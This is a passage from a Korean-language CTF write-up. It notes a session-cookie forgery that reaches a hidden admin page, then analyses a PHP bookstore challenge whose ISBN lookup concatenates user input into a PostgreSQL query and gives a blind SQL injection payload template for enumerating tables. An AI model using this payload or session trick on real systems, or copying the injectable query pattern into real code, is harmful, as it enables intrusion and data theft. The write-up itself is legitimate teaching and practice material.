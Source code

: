 다음으로 `PHPSESSID`를 admin으로 바꾸고 `/admin.php`라는 숨은 경로에 접속하면 flag를 획득할 수 있다.

## WEB - Libreria

---

간단하게 설명하면, 서점 페이지가 구현되어있다.

```python
case 'requestbook':
	if ((isset($_GET['isbn']) && strlen($_GET['isbn']) >= 10)) {
		$res = '{"res": "Sorry, but our budget is not enough to buy <a href=\'https://isbnsearch.org/isbn/'.$_GET['isbn'].'\'>this book</a>."}';
		$db = dbconnect();
		$result = pg_query($db, "SELECT ISBN FROM books WHERE isbn='".$_GET['isbn']."'");
		pg_close($db);
		if ($result) {
			$rows = pg_fetch_assoc($result);
			if ($rows) {
				$isbn = (int)$rows["isbn"];
				if (($isbn >= 1000000000) && ((string)$isbn === $rows["isbn"]))
				{
					$res = '{"res": "We already have this book('.$rows["isbn"].')."}';
				}
			}
		}
	}
```

핵심은 `requestbook` 부분이다.

`prepare statement`가 적용되어있지 않아서 SQLi가 가능하다. `pg_query()`를 사용하고 있는 것으로 볼 때, `postgre SQL`을 사용한다는 것을 알 수 있다. 

```python
$isbn = (int)$rows["isbn"];
if (($isbn >= 1000000000) && ((string)$isbn === $rows["isbn"]))
{
	$res = '{"res": "We already have this book('.$rows["isbn"].')."}';
}
```

조건문을 보면 쿼리의 결과가 `($isbn >= 1000000000)`이라는 조건을 만족해야한다.

따라서 SQLi로 DB 데이터를 화면에 출력할 수 없다. 

조건을 만족 시키면서 SQLi를 하기 위해서는 `blind SQLi`를 진행해야한다.

```python
union select case when

# example
union select case when (substring(STRING_AGG(table_name, ','),{i},1)='{j}') then 1111111111111 else 2222222222222 end from information_schema.tables where current_database() = 'books'
```
